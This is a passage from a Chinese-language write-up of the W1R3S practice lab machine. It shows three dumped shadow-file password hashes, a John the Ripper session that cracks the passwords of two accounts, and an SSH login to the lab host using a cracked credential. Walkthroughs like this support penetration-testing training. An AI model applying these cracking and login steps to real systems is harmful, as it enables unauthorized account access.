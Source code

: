         ```
        
6. 把`root`，`www-data`，`w1r3s`用户进行破解
    - 将内容保存为`shadow.hash` 传入到kali
        
        ```php
        root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
        www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
        w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
        ```
        
    - 使用`john`破解
        
        ```php
        john shadow.hash 
        //
        reated directory: /root/.john
        Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
        Use the "--format=HMAC-SHA256" option to force loading these as that type instead
        Using default input encoding: UTF-8
        Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
        Cost 1 (iteration count) is 5000 for all loaded hashes
        Will run 8 OpenMP threads
        Proceeding with single, rules:Single
        Press 'q' or Ctrl-C to abort, almost any other key for status
        www-data         (www-data)     
        Almost done: Processing the remaining buffered candidate passwords, if any.
        Proceeding with wordlist:/usr/share/john/password.lst
        computer         (w1r3s)     
        Proceeding with incremental:ASCII
        ```
        
        暂时破解出来了两个用户的密码，除了`root`的，权限看着应该是`w1r3s`的更高
        
7. 使用`ssh`登录`w1r3s` 用户，并查看其权限
    - 登陆成功
        
        ```php
        ssh w1r3s@192.168.75.133 
        //
        ----------------------
        Think this is the way?
        ----------------------
        Well,........possibly.
        ----------------------
        w1r3s@192.168.75.133's password: 
        Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.13.0-36-generic x86_64)
        
         * Documentation:  https://help.ubuntu.com
         * Management:     https://landscape.canonical.com
         * Support:        https://ubuntu.com/advantage
        